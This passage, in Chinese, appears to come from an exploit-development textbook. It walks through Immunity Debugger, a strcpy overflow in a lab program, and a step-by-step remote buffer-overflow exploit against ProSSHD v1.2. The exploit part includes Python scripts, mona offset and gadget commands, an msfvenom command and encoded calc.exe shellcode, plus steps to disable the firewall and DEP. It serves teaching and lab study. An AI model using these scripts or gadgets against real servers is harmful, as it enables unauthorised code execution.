在本练习中，你使用了 Visual Studio 2017 Community Edition 来编译 hello.c 和 meet.c 程序。我们使用完整的调试信息编译了 meet.c 程序，这将有助于我们进行下一练习。我们还研究了可用于执行操作（例如禁用 /GS 漏洞缓解控制）的各种编译器标志。

## 使用 Immunity Debugger 在 Windows 上进行调试

流行的用户模式调试器是 Immunity Debugger，你可以从 https://www.immunityinc.com/products/debugger/ 下载。撰写本文时，版本 1.85 是稳定版，也是本章使用的版本。Immunity Debugger 的主屏幕分为五个部分。“代码”或“反汇编器”部分（左上角）用于查看反汇编的模块。“寄存器”部分（右上角）用于实时监控寄存器状态。“十六进制转储”或“数据”部分（左下角）用于查看二进制文件的原始十六进制数据。“堆栈”部分（右下角）用于实时查看堆栈。你可以在下一页显示的屏幕中看到这些部分。“信息”部分（左中）用于显示代码部分中高亮指令的相关信息。每个部分都有右键单击后可用的上下文相关菜单。Immunity Debugger 在调试器窗口底部还有一个基于 Python 的 shell 界面，用于自动执行各种任务，以及执行脚本以帮助开发漏洞利用。在继续之前，请从上述链接下载并安装 Immunity Debugger。

可以通过多种方式使用 Immunity Debugger 开始调试程序：

- 打开 Immunity Debugger，选择 File | Open。
- 打开 Immunity Debugger，选择 File | Attach。
- 从命令行调用 Immunity Debugger——例如，从 Windows IDLE Python 提示符，如下所示：

```
>>> import subprocess
>>> p = subprocess.Popen(["Path to Immunity Debugger", "Program to Debug",
"Arguments"], stdout=subprocess.PIPE)
```

例如，要调试我们喜爱的 meet.exe 程序并向其发送 408 个 A，只需键入以下内容：

```
>>> import subprocess
>>> p = subprocess.Popen(["C:\\Program Files (x86)\\Immunity Inc\\Immunity
Debugger\\ImmunityDebugger.exe", "c:\\grayhat\\meet.exe", "Mr",
"A"*408], stdout=subprocess.PIPE)
```

前面的命令行将在 Immunity Debugger 中启动 meet.exe，如下所示：

I13-01.jpg

学习 Immunity Debugger 时，你会想了解以下常用命令（如果你使用 macOS 主机将这些命令传递给 Windows 虚拟机，可能需要映射键盘绑定）:(continued)



| 快捷键 | 用途 |
|---|---|
| F2 | 设置断点 (bp)。 |
| F7 | 步入函数。 |
| F8 | 步过函数。 |
| F9 | 继续到下一个断点或异常，或退出。 |

(continued)

| 快捷键 | 用途 |
|---|---|
| CTRL-K | 显示函数调用树。 |
| SHIFT-F9 | 将异常传递给程序处理。 |
| 在代码部分中单击并按 ALT-E | 生成链接的可执行模块列表。 |
| 右键单击寄存器值并选择 Follow in Stack 或 Follow in Dump | 查看与寄存器值对应的堆栈或内存位置。 |
| CTRL-F2 | 重新启动调试器。 |

接下来，为使本书中的示例保持一致，请在任何窗口中右键单击并选择 Appearance | Colors (All)，然后从列表中选择。本节中的示例使用方案 4（白色背景）。此外，已选择“无突出显示”选项。出于未知原因，Immunity Debugger 有时不支持持久性，因此你可能需要多次进行这些外观更改。

在 Immunity Debugger 中启动程序时，调试器会自动暂停。这样你就可以在继续之前设置断点并检查调试会话的目标。开始时，先检查程序的动态依赖项（ALT-E）总是个好主意，如下所示。



在此示例中，只有 kernel32.dll、KERNELBASE.dll 和 ntdll.dll 与 meet.exe 链接。这些信息很有用，因为稍后你将看到，这些程序包含在利用漏洞时可用的操作码。请注意，由于地址空间布局随机化 (ASLR) 和其他因素，每个系统上的寻址方式都会不同。

## 实验 13-2：使程序崩溃

对于本实验，你需要从上述链接下载并安装 Immunity Debugger 到你的 Windows 系统。Immunity Debugger 依赖 Python 2.7，如果系统中未安装，它将自动安装。你将调试之前编译的 meet.exe 程序。在你的 Windows 系统上使用 Python IDLE，键入以下内容：

```
>>> import subprocess
>>> p = subprocess.Popen(["C:\\Program Files (x86)\\Immunity Inc\\Immunity Debugger\\ImmunityDebugger.exe", "c:\\grayhat\\meet.exe", "Mr",
"A"*408],stdout=subprocess.PIPE)
# If on a 32-bit Windows OS you will need to remove the (x86) from the path.
```

使用前面的代码，我们传入了第二个参数，即 408 个 A。程序应在调试器的控制下自动启动。这 408 个 A 将导致缓冲区溢出。我们现在已准备好开始分析程序。我们关注 greeting() 函数内部的 strcpy() 调用，因为由于缺乏边界检查，它已知存在漏洞。要找到它，请从可执行模块窗口开始（可通过 ALT-E 打开）。双击“meet”模块，你将被带到 meet.exe 程序的函数指针处。你将看到程序的所有函数（在此示例中为 greeting 和 main）。按向下箭头键直到找到 JMP meet.greeting 行（你可能需要搜索一下），然后按 ENTER 跟随该 JMP 语句进入 greeting 函数，如下所示。




注意 如果看不到 greeting、strcpy 和 printf 等符号名称，那么你可能没有带调试符号编译二进制文件。根据你使用的 Windows 版本，你可能还会看到一个大得多的跳转表。即使是在 Windows 10 企业版而不是 Windows 7 专业版上编译，也可能产生不同的结果。如果在查看屏幕时右侧仍看不到符号，只需按照下一段中的说明，查找字符串 ASCII "Hello %s %s"，并在其上方几行的 CALL 指令处设置断点。

现在我们正在查看反汇编器窗口中的 greeting() 函数，让我们在易受攻击的函数调用（strcpy）处设置一个断点。按向下箭头键，直到找到行 0x00191034。同样，你所使用的 Windows 版本上的寻址和符号可能不同。如果是这样，只需查找右侧显示 ASCII "Hello %s %s" 的反汇编上方几行的 call 指令，以查看在哪里设置断点。你可以单击该指令并按 ENTER 来验证这是否是正确的调用。这应该显示该调用是针对 strcpy() 函数的。在该行，按 F2 设置断点；地址应变为红色。此断点允许你快速返回到此点。例如，此时，使用 CTRL-F2 重新启动程序，然后按 F9 继续运行到断点。你现在应该看到 Immunity Debugger 已在我们感兴趣的函数调用（strcpy）处暂停。


注意 本章中显示的地址很可能会因你的系统而异，因为


重基址和ASLR。因此，你应该遵循技术，而非特定地址。此外，根据你的操作系统版本，你可能需要在每次启动程序时手动设置断点，因为Immunity Debugger在某些Windows版本上似乎存在断点持久性问题。WinDbg是一个很好的替代方案，但它不如Immunity Debugger直观。

现在，我们已在易受攻击的函数调用（strcpy）上设置了断点，可以通过逐过程执行strcpy函数（按F8）来继续。随着寄存器的变化，你会看到它们变红。因为我们刚刚执行了strcpy函数调用，你应该会看到许多寄存器变红。继续逐过程执行程序，直到到达RETN指令，它是greeting函数中的最后一行代码。例如，因为“返回指针”已被四个A覆盖，调试器指示函数即将返回到0x41414141。还要注意函数尾声如何将EBP（扩展基址指针）的地址复制到ESP（扩展堆栈指针），然后将栈中的值（0x41414141）弹出到EBP中，如下所示。



如预期，当你再次按下F8时，程序将触发一个异常，或者直接崩溃，EIP（扩展指令指针）寄存器中将显示0x41414141。这被称为*第一次机会异常*，因为调试器和程序在程序崩溃前都有机会处理异常。你可以按SHIFT-F9将异常传递给程序。在这种情况下，因为应用程序本身没有提供异常处理程序，操作系统异常处理程序会捕获异常并终止程序。你可能需要多次按下SHIFT-F9才能看到程序终止。

程序崩溃后，你可以继续检查内存位置。例如，你可以在堆栈窗口中单击并向上滚动以查看前一个堆栈帧（我们刚刚从中返回，现在已变灰）。如下所示，你可以看到我们系统上的缓冲区开头。

```
0014F5F4 0083B000 :.. ASCII "Hello %s %s"
0014F5F8 00265A00 .Z&.
0014F5FC 0014F600 =+=. ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAA
0014F600 41414141 AAAA
0014F604 41414141 AAAA
0014F608 41414141 AAAA
0014F60C 41414141 AAAA
0014F610 41414141 AAAA
0014F614 41414141 AAAA
0014F618 41414141 AAAA
0014F61C 41414141 AAAA
0014F620 41414141 AAAA
0014F624 41414141 AAAA
0014F628 41414141 AAAA
0014F62C 41414141 AAAA
0014F630 41414141 AAAA
0014F634 41414141 AAAA
0014F638 41414141 AAAA
```

要继续检查崩溃机器的状态，在堆栈窗口中，向下滚动回到当前堆栈帧（当前堆栈帧将被高亮显示）。你也可以通过选择ESP寄存器值，然后右键单击该选定值并选择“在堆栈中跟进”来返回到当前堆栈帧。你会发现缓冲区的副本也可以在ESP+4位置找到，如下所示。选择攻击向量时，此类信息后来会变得有价值。

```
Registers
EAX 000001A3
ECX 0081120B main.0081120B
EDX 0026818B
EBX 00000000
ESP 0014F798
EBP 41414141
ESI 00000000
EDI 00000000
EIP 41414141
C 0 ES 0023 32bit 0(FFFFFFFF)
P 1 CS 001B 32bit 0(FFFFFFFF)
A 1 SS 0023 32bit 0(FFFFFFFF)
Z 0 DS 0023 32bit 0(FFFFFFFF)
0014F78C 41414141 AAAA
0014F790 41414141 AAAA
0014F794 41414141 AAAA
0014F798 00265A00 .Z&.
0014F79C 00265A1F Y&.. ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0014F7A0 0014F7E8 $%9l.
```

如你所见，Immunity Debugger易于使用。


**注意** Immunity Debugger仅在用户空间工作，并且在撰写本文时仅适用于32位应用程序。如果你需要深入内核空间，则必须使用Ring0调试器，例如来自Microsoft的WinDbg。

在本实验中，我们使用Immunity Debugger以恶意数据作为输入来跟踪执行流程。我们识别了对strcpy()的易受攻击调用，并设置了软件断点以逐过程执行该函数。然后我们允许执行继续，并确认我们可以获得指令指针的控制权。这是因为strcpy()函数允许我们覆盖greeting()函数用于将控制权返回给main()的返回指针。

## 编写Windows漏洞利用程序

接下来，你将使用Kali Linux上的默认Python安装。示例中使用的易受攻击应用程序的目标操作系统是Windows 10 x64 Enterprise。

在本节中，我们将继续使用Immunity Debugger，还将使用Corelan Team开发的Mona插件（https://www.corelan.be）。目标是继续在迄今为止介绍的漏洞利用开发流程基础上进行构建。然后，你将学习如何从漏洞通告进展到基本的概念验证漏洞利用程序。

## 漏洞利用开发流程回顾

漏洞利用创建过程通常包括以下步骤：

- 1. 控制指令指针。
- 2. 确定偏移量。
- 3. 确定攻击向量。
- 4. 构建漏洞利用程序。
- 5. 测试漏洞利用程序。
- 6. 如有需要，调试漏洞利用程序。

## 实验13-3：利用ProSSHD服务器

ProSSHD服务器是一个网络SSH服务器，允许用户“安全”地连接，并通过加密通道提供shell访问。该服务器运行在端口22上。几年前，发布了一份通告，警告存在针对身份验证后操作的缓冲区溢出。这意味着用户必须已经在服务器上拥有帐户才能利用该漏洞。该漏洞可以通过向SCP（安全复制协议）GET命令的路径字符串发送超过500字节的数据来利用。

## ProSSHD 'scp_get()' 缓冲区溢出漏洞

ProSSHD容易受到缓冲区溢出漏洞的影响，因为它未能对用户提供的数据执行足够的边界检查。

攻击者可以利用此问题在应用程序上下文中执行任意代码。漏洞利用尝试失败会导致拒绝服务。

ProSSHD v1.2 20090726存在漏洞；其他版本也可能受到影响。

此时，我们将在运行Windows 10 x64 Enterprise的VMware客户机虚拟机（VM）上设置易受攻击的ProSSHD v1.2服务器。你也可以选择使用Windows 7或8。运行Immunity Debugger的每个Windows版本可能会产生略有不同的结果；但是，本章中使用的最终漏洞利用程序已在多个Windows版本上进行了测试。我们将使用VMware，因为它允许我们比重新启动更快地启动、停止和重新启动虚拟机。


**警告** 因为我们正在运行一个易受攻击的程序，进行测试的最安全方法是将VMware的虚拟网络接口卡（VNIC）置于仅主机网络模式。这将确保没有外部机器可以连接到我们易受攻击的虚拟机。有关更多信息，请参阅VMware文档（www.vmware.com）。

在虚拟机内，使用以下链接下载并安装ProSSHD应用程序：www.labtam-inc.com/articles/prosshd-1-2.html。你还需要注册免费30天试用以激活服务器。使用“典型”安装选项成功安装后，从安装目录启动xwpsetts.exe程序（例如，安装路径可能是C:\Users\Public\Program Files (x86)\Lab-NC\ProSSHD\xwpsetts.exe）。程序启动后，单击“运行”，然后单击“以exe运行”（如下所示）。如果防火墙弹出，你也可能需要单击“允许连接”。


**注意** 如果目标虚拟机上所有程序和服务都运行着数据执行防护（DEP），你需要暂时为ProSSHD设置一个例外。我们将在后续示例中重新打开DEP，以演示在启用DEP时使用一种称为面向返回编程（ROP）的技术来修改权限的过程。检查的最快方法是按住Windows键并从键盘上按BREAK键以打开系统控制面板。在控制面板左侧，单击高级系统设置。在弹出菜单中，单击性能区域的设置。单击右侧窗格中标题为数据执行防护的部分。如果已选中“为所有程序和服务启用DEP，除了我选定的那些以外”选项，则需要为wsshd.exe和xwpsshd.exe程序添加例外。只需单击“添加”，从ProSSHD文件夹中选择这两个EXE文件，即可完成！我们将在下一章构建漏洞利用程序，通过ROP禁用DEP。


既然SSH服务器已经运行，你需要确定系统的IP地址，并从Kali Linux机器使用SSH客户端连接到它。在我们的情况中，运行ProSSHD的虚拟机位于192.168.10.104。你需要通过管理命令行使用命令NetSh Advfirewall set allprofiles state off关闭Windows防火墙，或者简单地添加一条规则以允许SSH的TCP端口22入站。

此时，易受攻击的应用程序和调试器正在易受攻击的服务器上运行，但它们尚未连接，因此建议通过创建快照来保存VMware虚拟机的状态。快照完成后，你可以简单地通过恢复到快照来返回到此点。此技巧将为你节省宝贵的测试时间，因为你可以在后续测试迭代中跳过所有之前的设置和重启。


## 控制指令指针

在 Kali Linux 虚拟机中打开你喜欢的编辑器，创建以下脚本，并将其保存为 prosshd1.py，以验证服务器的漏洞：


NOTE 此脚本需要 paramiko 和 scpclient 模块。paramiko 模块应该已经安装，但你需要验证你的 Kali 版本是否包含 scpclient。如果你尝试运行以下脚本并收到关于 scpclient 的错误，你需要从 https://pypi.python.org/packages/source/s/scpclient/scpclient-0.4.tar.gz 下载并运行 scpclient 模块的 setup.py。你还需要从 Kali Linux 命令行 shell 中使用默认 SSH 客户端连接一次，以便将易受攻击的目标服务器添加到已知 SSH 主机列表中。你需要在运行 ProSSHD 的目标 Windows 虚拟机上创建一个用户账户，该账户将用于你的漏洞利用。我们使用用户名 test1 与密码 asdf。创建该账户或类似的账户并用于此练习。

```
# prosshd1.py
# Based on original Exploit by S2 Crew [Hungary]
import paramiko
from scpclient import *
from contextlib import closing
from time import sleep
import struct

hostname = "192.168.10.104"
username = "test1"
password = "asdf"
req = "A" * 500

ssh_client = paramiko.SSHClient()
ssh_client.load_system_host_keys()
ssh_client.connect(hostname, username=username, key_filename=None,
password=password)
sleep(15)
with closing(Read(ssh_client.get_transport(), req)) as scp:
    scp.receive("foo.txt")
```

此脚本将从你的攻击主机运行，指向目标（在 VMware 中运行）。


NOTE 请记住更改 IP 地址以匹配你的易受攻击服务器，并验证你已在 Windows VM 上创建了 test1 用户账户。

事实证明，在这种情况下，漏洞存在于子进程 wsshd.exe 中，该进程仅在与服务器有活动连接时才存在。因此，我们需要启动漏洞利用，然后快速附加调试器以继续分析。这就是为什么 sleep() 函数使用 15 秒的参数，给我们留出附加的时间。在 VMware 机器内，你可以通过选择 File | Attach 将调试器附加到易受攻击的程序。选择 wsshd.exe 进程，然后单击 Attach 按钮启动调试器。


NOTE 将 Attach 屏幕按 Name 列排序可能有助于快速找到进程。如果你需要更多时间来附加，可以增加传递给 sleep() 函数的秒数。

开始吧！从 Kali 使用以下命令启动攻击脚本，然后快速切换到 VMware 目标，并将 Immunity Debugger 附加到 wsshd.exe：

```
#python prosshd1.py
```


一旦调试器启动并加载进程，按 F9 以“继续”程序。此时，漏洞利用应该已被传递，调试器右下角应该变为黄色并显示“Paused”。根据你用作目标的 Windows 版本，调试器可能要求你在第一次暂停后再次按 F9。因此，如果你不如所示在 EIP 寄存器中看到 0x41414141，请再次按 F9。通常将攻击窗口放置在可以查看调试器右下角的位置很有用，以便查看调试器何时暂停。

```
EBX 00000016C
ESP 0012EF88 ASCII "AAAAAAAA/foo.txt"
EBP 0012F3A4
ESI 76A635B7 kernel32.CreatePipe
EDI 0012F3A0
EIP 41414141
[16:22:22] Access violation when executing [41414141]
```

如你所见，我们控制了 EIP，现在它持有 0x41414141。

## 确定偏移量

接下来，你需要使用 Corelan Team 的 mona.py PyCommand 插件生成一个模式，以确定我们获得控制权的字节数。要获取 mona.py，请访问 https://github.com/corelan/mona 并下载该工具的最新副本。将其保存到 Immunity Debugger 文件夹下的 PyCommands 文件夹中。我们将使用从 Metasploit 移植过来的模式脚本。我们首先要设置工作目录，Mona 生成的输出将写入该目录。因此，启动一个 Immunity Debugger 实例。此时不需要加载程序。单击调试器窗口底部的 Python 命令行 shell，然后输入此处所示的命令：

```
!mona config -set workingfolder c:\grayhat\mona_logs\%p
```

如果 Immunity Debugger 跳转到日志窗口，你可以单击功能区上的“c”按钮返回主 CPU 窗口。现在我们必须生成一个 500 字节的模式用于我们的脚本。从 Immunity Debugger Python 命令行 shell 输入：

```
!mona pc 500
```

这将生成一个 500 字节的模式，并将其存储在你告诉 Mona 写入输出的新文件夹和文件中。检查 C:\grayhat\mona_logs\ 目录，看是否有新文件夹，可能名为 _no_name。该目录中应该有一个名为 pattern.txt 的新文件。这是你想要复制生成模式的文件。正如 Mona 所告诉你的，不要从 Immunity Debugger 的日志窗口复制模式，因为它可能被截断。

在 Kali Linux 虚拟机上保存 prosshd1.py 攻击脚本的新副本（本示例使用名称 prosshd2.py）。从 pattern.txt 文件复制 ASCII 模式，并更改 req 行以包含它，如下所示：

```
# prosshd2.py
...truncated...
req =
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6
Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3A
f4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai
1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8
Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5A
n6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A
q3Aq4Aq5Aq"
...truncated...
```


NOTE 复制时，模式将是一行非常长的文本。我们在此处对所示行进行了格式化，以便适应打印页面。

在 Kali Linux 终端窗口中使用 python prosshd2.py 运行新脚本。结果如下所示。


这次，正如预期的那样，调试器捕获了异常，EIP 包含模式的一部分值（41337141）。另外，请注意扩展栈指针（ESP）指向模式的一部分。

使用 Mona 中的模式偏移命令来确定 EIP 的偏移量，如下所示。

```
OBADFOOD [+] Command used:
OBADFOOD !mona po Aq3A
OBADFOOD Looking for Aq3A in pattern of 5000000 bytes
OBADFOOD - Pattern Aq3A found in cyclic pattern at position 489
OBADFOOD Looking for Aq3A in pattern of 5000000 bytes
OBADFOOD - Pattern eA3qA not found in cyclic pattern <uppercase>
OBADFOOD Looking for Aq3A in pattern of 5000000 bytes
OBADFOOD - Pattern A3qA not found in cyclic pattern <lowercase>
OBADFOOD
OBADFOOD [+] This mona.py action took 0:00:00.219000
!mona po Aq3A
```

你可以看到，在缓冲区的前 489 字节后，我们用 41337141 覆盖了字节 490 到 493 的返回指针。在查看 Immunity Debugger 的 Stack 部分时可以看到这一点。然后，在字节 493 之后的 4 字节，缓冲区的其余部分可以在程序崩溃后位于栈顶。我们刚刚用 Mona 使用的 Metasploit 模式偏移工具显示的是模式开始之前的偏移量。

## 确定攻击向量

在 Windows 系统上，栈位于较低的内存地址。这给我们在 Linux 漏洞利用中使用的 Aleph 1 攻击技术带来了问题。与 meet.exe 程序的现成场景不同，对于真实世界的漏洞利用，我们不能仅仅通过栈上的返回地址来控制 EIP。该地址可能以 0x00 开头，当我们将该 NULL 字节传递给易受攻击的程序时会给我们带来问题。

在 Windows 系统上，你将不得不找到另一个攻击向量。通常，当 Windows 程序崩溃时，你会在某个寄存器中找到你的缓冲区（如果不是全部）。如前一节所示，我们控制程序崩溃处的栈区域。我们所需要做的是将 shellcode 放置从字节 493 开始，并用 jmp 或 call esp 的操作码地址覆盖返回指针。我们选择此攻击向量是因为这两个操作码中的任何一个都会将 ESP 的值放入 EIP 并执行该地址处的代码。另一个选项是找到一条执行 push esp 后跟 ret 的指令序列。

要查找所需操作码的地址，我们需要搜索与 ProSSHD 程序动态链接的加载模块（DLL）。请记住，在 Immunity Debugger 内，你可以通过按 ALT-E 列出链接的模块。我们将使用 Mona 工具来搜索加载的模块。首先，我们将使用 Mona 确定哪些模块不参与利用缓解控制，例如 /REBASE 和地址空间布局随机化（ASLR）。第三方应用程序捆绑的模块通常不参与其中一些或全部控制。为了找出我们想要作为漏洞利用一部分使用的模块，我们将在 Immunity Debugger 内部运行 !mona modules 命令。你也可以使用 !mona modules -o 来排除操作系统模块。我们之前使用 Immunity Debugger 附加的 wsshd.exe 实例应该仍然在运行，显示 EIP 中的先前模式。如果它不再运行，请再次运行前面的步骤，附加到 wsshd.exe 进程。调试器已附加到进程后，运行以下命令以获得相同的结果：

```
!mona modules
```


从Mona的输出示例可以看出，模块 MSVCR71.dll 未受大多数可用漏洞利用缓解控制的保护。最重要的是，它未进行重定位，也不参与 ASLR。这意味着，如果我们找到所需的操作码，其地址在我们的利用程序中应该是可靠的，从而绕过 ASLR！

我们将继续使用 Peter Van Eeckhoutte（又名 corelanc0d3r）和 Corelan 团队的 Mona 插件。这次我们将使用它从 MSVCR71.DLL 中查找所需的操作码。运行以下命令：

```
!mona jmp -r esp -m msvcr71.dll
```

jmp 参数用于指定我们要搜索的指令类型。-r 参数允许我们指定要跳转并执行代码的寄存器地址。-m 参数是可选的，允许我们指定要搜索的模块。我们选择 MSVCR71.dll，如前所述。命令执行后，应在 C:\grayhat\mona_logs\wsshd 处创建一个新文件夹。该文件夹中有一个名为 jmp.txt 的文件。查看其内容时，我们会看到以下内容：

```
0x7c345c30 : push esp # ret | asciiprint,ascii {PAGE_EXECUTE_READ} [MSVCR71.dll]
ASLR: False, Rebase: False, SafeSEH: True, OS: False
(C:\Users\Public\Program Files\Lab-NC\ProSSHD\MSVCR71.dll)
```

地址 0x7c345c30 显示了 push esp # ret 指令。这实际上是两条独立的指令。push esp 指令将 ESP 当前指向的地址压入栈中，而 ret 指令会导致 EIP 返回到该地址并将其作为指令执行。如果你认为这就是 DEP 被创建的原因，那么你是正确的。


注意：这种攻击向量不一定对你始终有效。你需要查看寄存器，并利用现有条件。例如，你可能需要使用 jmp eax 或 jmp esi。

在构建利用程序之前，你可能希望确定可用于存放 shellcode 的栈空间大小，特别是如果你计划使用的 shellcode 较大。如果可用空间不足，另一种方法是使用多阶段 shellcode 为额外阶段分配空间。通常，确定可用空间大小的最快方法是向程序发送大量 A，并在程序崩溃后手动检查栈。你可以通过在崩溃后单击调试器的栈部分，然后向下滚动到栈底并确定 A 结束的位置来确定可用空间。然后，只需用 A 的结束位置减去 A 的起始位置即可。这可能不是确定可用空间大小最准确、最优雅的方法，但通常足够准确，且比其他方法更快。

我们准备好创建一些用于概念验证利用程序的 shellcode。在你的 Kali Linux 虚拟机上使用 Metasploit 命令行负载生成器：

```
$ msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a' -e x86/shikata_ga_nai -f py
> sc.txt
```

取上述命令的输出并将其添加到攻击脚本中（请注意，我们将把变量名从 buf 改为 sc）。

## 构建利用程序

我们终于准备好将各部分组合在一起并构建利用程序：

```
#prosshd3.py POC Exploit
import paramiko
from scpclient import *
from contextlib import closing
from time import sleep
import struct

hostname = "192.168.10.104"
username = "test1"
password = "asdf"
jmp = struct.pack('<L', 0x7c345c30)      # PUSH ESP # RETN
pad = "\\x90" * 12             # compensate for fstenv
sc = ""
sc += "\\xdd\\xc4\\xd9\\x74\\x24\\xf4\\xb8\\x8f\\xda\\x92\\x74\\x5b\\x33"
sc += "\\xc9\\xb1\\x33\\x31\\x43\\x17\\x83\\xeb\\xfc\\x03\\xcc\\xc9\\x70"
sc += "\\x81\\x2e\\x05\\xfd\\x6a\\xce\\xd6\\x9e\\xe3\\x2b\\xe7\\x8c\\x90"
sc += "\\x38\\x5a\\x01\\xd2\\x6c\\x57\\xea\\xb6\\x84\\xec\\x9e\\x1e\\xab"
sc += "\\x45\\x14\\x79\\x82\\x56\\x98\\x45\\x48\\x94\\xba\\x39\\x92\\xc9"
sc += "\\x1c\\x03\\x5d\\x1c\\x5c\\x44\\x83\\xef\\x0c\\x1d\\xc8\\x42\\xa1"
sc += "\\x2a\\x8c\\x5e\\xc0\\xfc\\x9b\\xdf\\xba\\x79\\x5b\\xab\\x70\\x83"
sc += "\\x8b\\x04\\x0e\\xcb\\x33\\x2e\\x48\\xec\\x42\\xe3\\x8a\\xd0\\x0d"
sc += "\\x88\\x79\\xa2\\x8c\\x58\\xb0\\x4b\\xbf\\xa4\\x1f\\x72\\x70\\x29"
sc += "\\x61\\xb2\\xb6\\xd2\\x14\\xc8\\xc5\\x6f\\x2f\\x0b\\xb4\\xab\\xba"
sc += "\\x8e\\x1e\\x3f\\x1c\\x6b\\x9f\\xec\\xfb\\xf8\\x93\\x59\\x8f\\xa7"
sc += "\\xb7\\x5c\\x5c\\xdc\\xc3\\xd5\\x63\\x33\\x42\\xad\\x47\\x97\\x0f"
sc += "\\x75\\x9e\\x8e\\xf5\\xd8\\x16\\xd0\\x51\\x84\\xb2\\x9a\\x73\\xd1"
sc += "\\x5c\\x0c\\x19\\x24\\x47\\x7f\\x64\\x26\\x57\\x80\\xc6\\x4f\\x66"
sc += "\\x0b\\x89\\x08\\x77\\xde\\xee\\xe7\\x3d\\x43\\x46\\x60\\x98\\x11"
